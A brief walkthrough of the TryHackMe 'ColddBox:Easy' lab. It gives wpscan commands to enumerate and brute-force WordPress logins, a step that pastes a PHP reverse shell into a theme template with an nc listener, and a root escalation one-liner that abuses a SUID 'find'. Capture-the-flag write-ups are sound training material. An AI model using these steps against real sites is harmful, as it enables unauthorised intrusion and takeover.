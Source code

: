 ```yaml
---
title: ColddBox:Easy WalkThrough
permalink: /colddbox
layout: page
tags: TryHackMe
---
```

# ColddBox:Easy
# ![front](/images/coldd/front.png)
[https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

## Open Ports:
- 9: discard
- 80: HTTP

![ports](/images/coldd/ports.png)
	
## Gaining Access:
* Found a wordpress website with version on **nmap** scan `4.1.31`
```
$ wpscan --url http://10.10.176.163  -e vp,vt,u       
````	
![wp](/images/coldd/wp.png)

* Found anuthors/users:

![users](/images/coldd/users.png)
 * Hugo
 * C0ldd
 * Philip

* Now performing password bruteforce for these 3 usernames
```
$ wpscan --url  http://10.10.176.163 --passwords /usr/share/wordlists/rockyou.txt --usernames c0ldd,hugo,philip
```
![passwd](/images/coldd/passwd.png)

* Using this password we can login to /wp-admin
* Go to appearance and editor, select `404 templet` to edit.
* Paste the php revshell from pentestmonkey in the editor 
* Start the listener `nc`
* To execute the revsheel access: `http://ip/>p=404.php`
* Unable to access usr.txt
* Uploading linpeas.sh
* Found suid set on **_find_**
```
$ /usr/bin/find . -exec /bin/sh -p \; -quit
```
*  Now we have root access.

### User Flag:
![uf](/images/coldd/uflag.png)

## Root Flag:
![root](/images/coldd/root.png)
